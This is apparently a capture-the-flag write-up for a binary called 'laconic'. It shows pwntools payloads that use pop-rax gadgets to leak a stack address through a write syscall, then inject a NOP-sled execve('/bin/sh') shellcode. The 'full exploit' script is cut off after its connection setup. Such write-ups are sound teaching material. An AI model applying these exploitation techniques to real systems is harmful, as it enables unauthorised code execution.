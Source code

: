 1. **Stage 1** – Leak a stack address using a `write` syscall.
2. **Stage 2** – Inject shellcode using `read`, then jump to it for shell execution.


### Stage 1 – Stack Leak via Arbitrary Syscall

We craft a payload to:
- Set `RAX = 1` → triggering a `write` syscall.
- Write from `RSP - 8`, which is under our control.
- Jump back to `_start` afterward.

```python
payload  = b"A" * 8
payload += p64(gadgetPopRax)     # pop rax; ret
payload += p64(1)                # rax = 1 → write
payload += p64(_start)          # return to _start
payload += p64(gadgetPopRax)
payload += p64(0)                # rax = 0 → prepare for read
payload += p64(_start)          # return again to _start
```

## Stage 2 – Injecting Shellcode & Getting a Shell

With the leaked stack address from Stage 1, we can now inject shellcode and pivot execution to it.

Since we don’t know the exact offset between the leaked address and where our second-stage `read()` will write, we use a **NOP sled** and try multiple offsets.

---

### Payload Structure

The second payload consists of:
- A dummy return address (`"A" * 8`)
- A guessed return address pointing into the NOP sled (`leakStack + offset`)
- A NOP sled to improve our chances of landing correctly
- The actual shellcode (`execve("/bin/sh", ...)`)

---


```python
payload  = b"A" * 8
payload += p64(leakStack + 0x300 + 100 * i)  # Guess offset
payload += shellcode                         # Nop sled + Shellcode
```
### So this was the full exploit:

```python
#!/usr/bin/env python3

from pwn import *

e = ELF("laconic")

context.binary = e

def conn(cond):
    if cond == 1:
        r = process([e.path])
    elif cond == 2:
        r = gdb.debug([e.path], gdbscript="""
            
            """)
    elif cond == 3:
        r = remote("localhost", 12345)

```